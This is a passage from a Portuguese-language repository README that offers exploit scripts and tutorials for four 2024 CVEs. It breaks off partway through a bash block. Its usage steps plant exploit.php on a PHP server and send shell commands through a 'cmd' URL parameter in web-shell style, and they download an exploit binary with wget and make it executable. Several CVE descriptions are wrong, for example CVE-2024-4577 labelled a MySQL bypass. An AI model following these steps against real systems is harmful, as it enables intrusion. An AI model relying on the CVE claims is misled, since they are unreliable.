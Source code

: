 # # Kali Linux Vulnerabilities

Este repositório contém scripts e tutoriais para explorar e corrigir vulnerabilidades de segurança em Kali Linux, focando em CVEs recentes.

## Estrutura do Repositório

- **CVE-2024-5585**: Exploração da Vulnerabilidade PHP Command Injection
- **CVE-2024-2408**: Exploração da Vulnerabilidade de Escalonamento de Privilégios no Kernel Linux
- **CVE-2024-5458**: Exploração da Vulnerabilidade RCE no Apache HTTP Server
- **CVE-2024-4577**: Exploração da Vulnerabilidade de Bypass de Autenticação no MySQL Server

## Exemplo de Uso

### CVE-2024-5585

1. **Hospedagem do Script:**
   - Coloque `exploit.php` em um servidor PHP vulnerável.

2. **Acesso ao Script:**
   - Use o navegador para acessar `http://192.168.1.10/exploit.php?cmd=whoami`.

### CVE-2024-2408

1. **Baixar e Tornar Executável:**

   ```bash
   wget https://example.com/exploit_CVE-2024-2408 -O exploit_CVE-2024-2408
   chmod +x exploit_CVE-2024-2408